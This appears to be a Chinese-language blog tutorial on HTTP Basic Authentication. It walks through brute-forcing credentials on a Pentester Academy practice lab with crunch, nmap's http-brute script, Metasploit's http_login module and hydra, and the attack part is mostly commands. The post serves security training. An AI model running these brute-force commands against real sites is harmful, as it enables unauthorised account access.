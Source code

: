 ```yaml
---
layout:     post
title:      暴力破解HTTP身份验证
subtitle:   
date:       2020-01-28
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - HTTP Basic Authentication
---
```


参考:[Bypass HTTP Basic Authentication with Nmap and Metasploit](https://www.kamranmohsin.com/2017/02/bypass-http-basic-authentication-nmap-metasploit/)

# HTTP身份验证介绍

[HTTP身份验证](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Authentication)是在请求特定web资源时提供用户名和密码的一种方法。<br>
客户端以未加密的base64编码文本的形式发送用户名和密码。

当HTTP接收到对受保护资源的匿名请求时，它可以使用401(拒绝访问)状态码拒绝请求，从而强制使用基本身份验证。

```
HTTP/1.1 401 Access Denied
WWW-Authenticate: Basic realm="Server Results"
Content-Length: 0
```

`WWW-Authenticate` 中的单词 `Basic` 表示用户必须使用Basic身份验证方法来访问受保护的资源。<br>
可以将领域设置为描述特定资源中的安全区域的任何值。

```
GET /protectedfiles/ HTTP/1.1
Host: www.kamranmohsin.com
Authorization: Basic adsadWNoOmY=
```

当成功尝试时，HTTP状态变为 200 OK. `adsadWNoOmY=` 是`basic64`编码版本的用户名和密码。

# 用Nmap绕过HTTP身份验证

绕过可以通过 [Nmap](https://nmap.org/) 来完成. Nmap是一款安全扫描器,它一般用于发现计算机网络上的主机和服务. <br>
Nmap附带了130多个NSE脚本，可以帮助发现网络中几乎所有可能的信息.

想要动手练习,请点击[这里](https://pentesteracademylab.appspot.com/lab/webapp/basicauth). 在链接中提供了绕过身份验证的提示.<br>
对于用户名和密码，在Kali Linux中创建两个单独的文件。我先创建一个目录。<br>
```
mkdir demo
cd demo
vi users.txt
```
将可能的用户名nick, admin写入,users.txt里面保存.当然你也可用网上别人整理好的比如[SecLists](https://github.com/dm116/SecLists).<br>

让我们做一个密码文件，根据提示也就是5个字符，只使用a,s,d小写。密码例子asddd, aassd, ssdaa等。<br>

```
crunch 5 5 asd > pass.txt
```
Crunch命令有助于为蛮力强制进行组合。紧随其后的是5个包含asd的最小或最大字符,结果的组合被保存到pass.txt文件中.

现在使用nmap http-brute命令绕过http基本身份验证,下面是命令:
```
nmap -p 80 --script http-brute --script-args 'http-brute.hostname=pentesteracademy
lab.appspot.com, http-brute.method=POST, http-brute.path=/path/webapp/basicauth, 
userdb=/root/demo/users.txt, passdb=/root/demo/pass.txt' -n -v pentesteracademy
lab.appspot.com
```
我们正在检查端口 `80`，主机名(`http-brute.hostname`)应该是你绕过认证的站点。<br>
`方法`和`路径`应该通过查看登录页面的源页面进行确定。<br>
应该给出`users.txt`和`pass.txt`的完整路径。`-n`表示没有dns, `-v` 表示详细模式,最后要写出网站的名称。<br>

# 用Nmap绕过HTTP身份验证

[Metasploit](https://www.metasploit.com/)有助于发现安全问题，验证漏洞缓解&管理安全评估.<br>

命令如下:<br>
```
msfconsole
```
进入 `msf >` 后<br>
```
search http_login
use auxiliary/scanner/http/http_login
```
进入 `msf5 auxiliary(scanner/http/http_login) >` 后<br>
```
show options
set AUTH_URI /lab/webapp/basicauth
set BLANK_PASSWORDS false
set PASS_FILE /root/demo/pass.txt
set REQUESTTYPE POST
set RHOSTS  pentesteracademylay.appspot.com
set STOP_ON_SUCCESS true
set THREADS 20
set USERNAME admin
set VHOST pentesteracademylay.appspot.com
set USER_FILE ''
set USER_AS_PASS false
set USERPASS_FILE ''
run
```
运行命令后，几分钟内您将获得密码aaddd。<br>
如果在不知道 USERNAME 的情况下需要设置 `USER_FILE`, 上面 `set USER_FILE ''`是设置为空的意思.<br>

# hydra暴力破解HTTP身份验证
```
hydra -L users.txt -P pass.txt http-post://pentesteracademylab.appspot.com/lab/webapp/basicauth
```
hydra使用参考 [hydra使用介绍](https://dm116.github.io/2020/01/27/hydra/)
